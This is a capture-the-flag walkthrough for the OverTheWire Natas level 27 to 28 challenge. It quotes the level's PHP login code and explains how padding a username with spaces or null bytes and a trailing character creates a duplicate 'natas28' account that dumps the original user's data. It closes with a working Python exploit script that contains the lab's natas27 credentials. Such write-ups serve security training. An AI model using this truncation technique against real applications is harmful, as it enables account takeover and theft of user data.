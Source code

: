 # Level 27 -> Level 28

```
if(array_key_exists("username", $_REQUEST) and array_key_exists("password", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas27', '<censored>');
    mysqli_select_db($link, 'natas27');


    if(validUser($link,$_REQUEST["username"])) {
        //user exists, check creds
        if(checkCredentials($link,$_REQUEST["username"],$_REQUEST["password"])){
            echo "Welcome " . htmlentities($_REQUEST["username"]) . "!<br>";
            echo "Here is your data:<br>";
            $data=dumpData($link,$_REQUEST["username"]);
            print htmlentities($data);
        }
        else{
            echo "Wrong password for user: " . htmlentities($_REQUEST["username"]) . "<br>";
        }
    }
    else {
        //user doesn't exist
        if(createUser($link,$_REQUEST["username"],$_REQUEST["password"])){
            echo "User " . htmlentities($_REQUEST["username"]) . " was created!";
        }
    }

    mysqli_close($link);
} 
```

looking at this source code we can see that if a valid user doesn't exist it creates that user so we are about to create duplicate user for natas28 using trailing spaces  
we add the extra trailing spaces to fail the exisiting user check and to create the duplicate user for natas28  
we add too many spaces and a character at end to bypass the checking in the code given below  
the too many spaces would store only natas and its trailing spaces as the character at the end would get stripped away  
and the character at the end would let you bypass the trim() check given below  

```
if($usr != trim($usr)) {
        echo "Go away hacker";
        return False;
}
```

```
function dumpData($link,$usr){

    $user=mysqli_real_escape_string($link, trim($usr));

    $query = "SELECT * from users where username='$user'";
    $res = mysqli_query($link, $query);
    if($res) {
        if(mysqli_num_rows($res) > 0) {
            while ($row = mysqli_fetch_assoc($res)) {
                // thanks to Gobo for reporting this bug!
                //return print_r($row);
                return print_r($row,true);
            }
        }
    }
    return False;
}
```

since this dumpData() uses a while loop to iterate multiple results so the password we create with duplicate natas28 will give us data of original natas28 user  

use this python script to do as said above  

```python
import requests
import re

username = 'natas27'
password = 'u3RRffXjysjgwFU6b9xa23i6prmUsYne'

url = 'http://%s.natas.labs.overthewire.org/' % username

session = requests.Session()

r = session.post(url, data = \
	{"username" : "natas28" + "%00"*58+"anything",
	"password"  : "anything"},
	auth = (username, password))

r = session.post(url, data = \
        {"username" : "natas28",
        "password"  : "anything"},
        auth = (username, password))


print(r.text)
```
